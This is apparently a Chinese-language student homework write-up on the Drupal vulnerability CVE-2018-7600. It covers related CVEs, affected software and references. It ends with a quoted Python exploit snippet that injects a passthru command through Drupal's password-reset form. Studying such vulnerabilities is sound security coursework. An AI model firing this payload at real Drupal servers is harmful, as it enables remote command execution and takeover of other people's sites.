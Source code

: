 * **还有哪些其他漏洞与 CVE-2018-7600 的 CWE 编号相同？（请列举至少三个）**
  如下：
```
CVE-2014-9390
CVE-2015-6232
CVE-2016-1000119
CVE-2017-8831
CVE-2017-1001000
CVE-2017-1001001
CVE-2018-1000632
CVE-2018-1000633
```
### 4. 关于 CVE-2018-7600 的 CPE 信息请回答以下问题：
* 该漏洞的受影响软件有哪些？
**同样可在NVD官网查找到影响的相关软件：**

![affect](./img_6/影响的软件.png)

* **该漏洞的受影响软件的哪些版本受到了影响**
同样可由上图中的看出哪些版本受到了影响。
### 5. 关于 CVE-2018-7600 的 References 信息请回答以下问题：
* 该漏洞的漏洞利用脚本有哪些？（请给出至少两个漏洞利用脚本及其对应的网站链接）
   关于CVE-2018-7600的漏洞利用脚本:
   [CSDN博客上的示例：](https://blog.csdn.net/weixin_42742658/article/details/112479848)
```
import requests
import re
from sys import argv

domain = argv[1]


def exploit(command):
	HOST=domain

	get_params = {'q':'user/password', 'name[#post_render][]':'passthru', 'name[#markup]':command, 'name[#type]':'markup'}
	post_params = {'form_id':'user_pass', '_triggering_element_name':'name'}
	r = requests.post(HOST, data=post_params, params=get_params)
```